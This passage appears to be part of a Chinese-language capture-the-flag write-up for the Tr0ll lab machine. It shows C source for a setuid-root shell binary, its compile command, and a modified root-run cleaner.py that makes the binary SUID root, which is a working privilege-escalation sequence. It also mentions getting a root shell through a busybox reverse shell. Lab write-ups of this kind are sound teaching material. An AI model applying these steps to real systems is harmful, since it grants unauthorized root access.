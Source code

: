 简单getroot程序源码如下，当然还存在其它复杂[getroot源码](https://gist.github.com/binyuj/811aed22a079bda8145ed6d4742c3ec9)。

```c
int main()
{
     setgid(0);
     setuid(0);
     system("/bin/bash");
}
```

编译命令如下，建议最好在目标靶机上完成编译，目标靶机是32位系统，而且存在gcc。

```bash
gcc -o getroot getroot.c
```

最终修改cleaner.py，然后等待2min后执行/var/tmp/getroot即可。注意本台靶机在/run/shm下执行getroot可能会失败，因为/run/shm以 nosuid 挂载，意味着该目录下的可执行文件在运行时会忽略其 suid和 sgid权限位，这是我在该[wp](https://devl00p.github.io/posts/Solution-du-CTF-Tr0ll/)下发现的。

```bash
#!/usr/bin/env python
import os
import sys
try:
     os.system('chown root.root /var/tmp/getroot; chmod 4755 /var/tmp/getroot')
except:
     sys.exit()
```

这里我通过busybox反弹shell成功get root shell。

![image-20250825173049486](./Tr0ll.assets/image-20250825173049486.png)












